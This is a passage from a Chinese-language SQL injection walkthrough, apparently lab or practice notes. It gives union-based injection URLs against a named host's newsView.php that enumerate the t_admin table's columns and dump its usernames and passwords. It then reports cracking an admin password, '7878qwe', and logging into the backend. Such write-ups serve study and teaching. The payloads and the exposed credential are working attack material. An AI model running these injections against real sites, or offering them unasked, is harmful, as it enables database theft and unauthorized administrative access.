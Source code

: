    1. 查字段:

      ```mysql
      http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,group_concat(column_name),4,5 from information_schema.columns where table_schema="double_fish" and table_name = "t_admin"
      ```

      得到如下字段,可以看出该表就是保存用户名和密码的表,直接梭哈该表:

      ![image-20220906112015185](SQL注入.assets/image-20220906112015185.png)

   2. 查询t_admin表所有数据

      ```mysql
      http://www.wabjtam.ml:12880/News/newsView.php?newsId=-1 union select 1,2,group_concat(username,"=",password),4,5 from t_admin
      ```

      得到如下结果:

      ![image-20220906112519612](SQL注入.assets/image-20220906112519612.png)

8. 使用解密工具对密文进行解密,得到密码为:7878qwe,使用账号密码登录

   成功进入后台:

   ![image-20220906112729609](SQL注入.assets/image-20220906112729609.png)
